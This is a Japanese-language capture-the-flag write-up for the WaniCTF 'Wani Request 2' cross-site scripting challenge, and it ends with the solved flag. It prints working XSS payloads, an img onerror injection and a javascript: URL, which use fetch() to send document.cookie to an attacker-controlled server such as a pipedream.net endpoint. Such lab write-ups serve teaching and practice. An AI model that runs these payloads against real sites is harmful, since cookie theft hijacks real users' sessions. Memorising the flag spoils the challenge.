 # 4.Wani Request 2

```txt
XSS Challenge !!
https://request2.web.wanictf.org/
チャレンジは二つです。
あどみんちゃんのクッキーを手に入れてください。
Wani Request 1 と同じくRequestBinなどを利用してみましょう。

Writer : nkt
```

## Solution

問題にアクセスすると、トップページに以下のようなコメントが表示されて ページが2つあります。

```txt
challengeは2つあります。両方クリアするとFLAGが完成します。
形式 : FLAG{???-???} (page1 : FLAG{???, page2 : -???})
```

![img1](img/img1.png)
![img2](img/img2.png)

問題文より、XSS問題ということがわかっているので、それを踏まえて推測していきます。

### page1
まず、page1 を見てみると、入力欄に入力した内容が `wani` パラメータに入れられて、パラメータの中身をそのまま出力しています。

なので試しに `"><img src="" onerror="alert(3));">` と挿入してみると XSS が発火しました。

![img3](img/img3.png)

なので今回も、サーバを用意して Cookie にflagがあると推測してサーバに遅らせます。

ペイロードは、以下のようにします。

```javascript
"><img src="" onerror="fetch(`https://(MyServer)/?cookie=${document.cookie}`);">
```

このペイロードを入力欄に入力して、送信すると用意したサーバに送られてきたレスポンスの Cookie にflagを半分を得ることができました。

```http
https://en1izb0icnjm8x7.m.pipedream.net/?cookie=flag1=FLAG{y0u_4r3_x55
```

### page2

次に page2 を見てみると、URL を入力する欄があります。

ここにも XSS があると思われるので 入力欄に、`javascript:alert(3)` のようなペイロードを挿入してみると XSS が発火しました。

![img4](img/img4.png)

なので page1 のように、用意したサーバに Cookie を送信させるように以下のようなペイロードを入力欄に入れて送信させます。

```javascript
javascript:fetch(`https://(MyServer))/?cookie=${document.cookie}`);
```

すると、レスポンスの Cookie にflagを半分を得ることができました。

```http
https://en1izb0icnjm8x7.m.pipedream.net/?cookie=flag2=-60d_c75a4c80cf07}
```

## Flag

```txt
FLAG{y0u_4r3_x55-60d_c75a4c80cf07}
```
